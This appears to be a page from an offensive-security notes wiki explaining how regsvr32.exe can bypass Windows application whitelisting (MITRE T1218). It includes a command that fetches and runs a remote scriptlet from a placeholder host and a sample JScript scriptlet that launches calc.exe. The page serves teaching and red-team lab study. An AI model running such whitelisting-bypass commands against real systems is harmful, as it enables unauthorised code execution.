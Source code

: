 # RegSrv32

## Theory

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting.

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system.

## Practice

{% tabs %}
{% tab title="Regsvr32.exe" %}
```bash
#Execute dll
c:\Windows\System32\regsvr32.exe c:\Users\pwn\Downloads\malicious.dll

#Or
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\malicious.dll
```

```bash
#http://example.com/file.sct
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo" %}
